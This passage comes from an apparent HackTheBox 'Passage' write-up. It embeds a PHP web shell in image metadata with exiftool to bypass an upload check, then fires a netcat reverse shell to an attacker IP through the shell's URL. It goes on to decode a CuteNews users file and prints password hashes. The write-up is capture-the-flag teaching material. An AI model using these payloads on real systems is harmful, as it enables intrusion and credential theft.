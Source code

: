 We also realize that we are unable to upload a php file onto the website. Probably, the backend does some magic number verification. 

Let us attempt to bypass magic number check by introducing a shell inside the metadata using exiftool. Afterwards, we will rename the image file to become index.php

```
┌──(kali㉿kali)-[~/Desktop]
└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' index.jpeg                                  1 ⨯
    1 image files updated
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop]
└─$ mv index.jpeg index.php  
```

Lastly we will upload the php file onto the site and visit http://passage.htb/CuteNews/uploads/avatar_testaccount_index.php?cmd=id to exploit the webshell.
![webshell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Passage/webshell.png)

We can then use the webshell to obtain a reverse shell by browsing to http://passage.htb/CuteNews/uploads/avatar_testaccount_index.php?cmd=nc%2010.10.16.3%204000%20-e%20/bin/bash
![Reverse Shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Passage/reverse_shell.png)

### Privilege Escalation to Paul
However, we realize that we are currently the www-data user, and we do not have the privilege to access the paul or nadav user which is where the user flag is most probably stored in. Hence, we would need some privilege escalation vector to escalate our privileges to either one of the user.

From linpeas script, we are able to find an interesting directory (/var/www/html/CuteNews/cdata/users). We will then navigate to the directory to check for any interesting information. In the directory, we are able to find a ```lines``` file.

Checking out the contents of ```lines``` file, we are able to find a few base64 encoded string. Decoding the base64 encoded string, we realize that this is actually a serialized PHP data that contains a hashed password and the email address of the user

We will first save the ```lines``` file to our local machine and write a script to decode the base64 encoded string, and filter out all the passage.htb users
```
┌──(HTB)─(kali㉿kali)-[~/Desktop/passage]
└─$ python3 decode.py
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```
